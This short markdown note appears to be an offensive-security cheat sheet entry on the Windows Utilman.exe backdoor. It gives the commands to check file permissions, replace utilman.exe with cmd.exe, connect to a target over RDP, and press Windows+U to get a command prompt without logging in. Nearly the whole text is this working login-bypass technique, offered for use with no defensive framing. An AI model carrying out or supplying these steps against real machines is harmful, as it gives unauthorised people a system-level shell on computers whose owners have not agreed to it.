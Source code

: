## What is Utilman.exe?
The file that starts Ease of Access!

## How to?
Check privilege of `utilman.exe` and `cmd.exe`
```
icacls C:\Windows\System32\utilman.exe
icacls C:\Windows\System32\cmd.exe
```
### Replace `utilman.exe` and `cmd.exe`
```
mv C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.bak
mv C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```
### Rdesktop into target
```
rdesktop 192.168.209.172
```
### Trigger
Press `Windows + U` will start a `terminal` without login

